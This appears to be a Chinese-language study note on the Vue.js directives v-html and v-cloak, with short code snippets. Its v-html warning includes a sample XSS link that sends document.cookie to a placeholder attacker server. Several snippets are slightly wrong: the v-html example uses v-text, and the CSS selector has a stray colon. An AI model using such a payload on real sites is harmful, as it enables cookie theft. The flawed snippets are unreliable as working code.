 ### v-html

<font style="color:red">可以解析html标签，但是不安全，会造成xss攻击风险，最好不要在用户输入框使用，不然用户如果输入\<a href="javascript;location.href="坏人的服务器域名?"+"document.cookie">\</a>则会取得别人的cookie值</font>

~~~html
<div id="root" v-text="name"></div>
~~~

~~~javascript
new Vue({
    el: "#root",
    data: {
        name: '<h1>你好</h1>',
    },
})
~~~

### v-cloak

<font style="color:red">当外部资源（比如vue.js）加载较慢时，如果把该script标签填写在head，那么会阻塞整个html渲染，如果放在body后面，vue没引入，插值语法不被解析直接显示到页面上，这种结果显然不是很理想，这时v-cloak就可以解决这个问题</font>

~~~html
<div id="root">
	<h2>
        {{name}}
    </h2>
</div>
<!-- 如果放在这个位置，页面就会将{{name}}渲染出来，显然不是我们想要的结果 -->
<script src="www.???.com/vue.js"></script>
~~~

~~~css
[v-cloak]:{
    display: none;
}
~~~

~~~html
<div id="root">
    <!-- v-cloak会在vue加载完毕后删除，搭配css就可以保证vue.js没加载完时页面上就不会显示h2标签 -->
	<h2 v-cloak>
        {{name}}
    </h2>
</div>
<script src="www.???.com/vue.js"></script>
~~~

~~~javascript
new Vue({
    el: "#root",
    data: {
        name: '你好',
    },
})
~~~
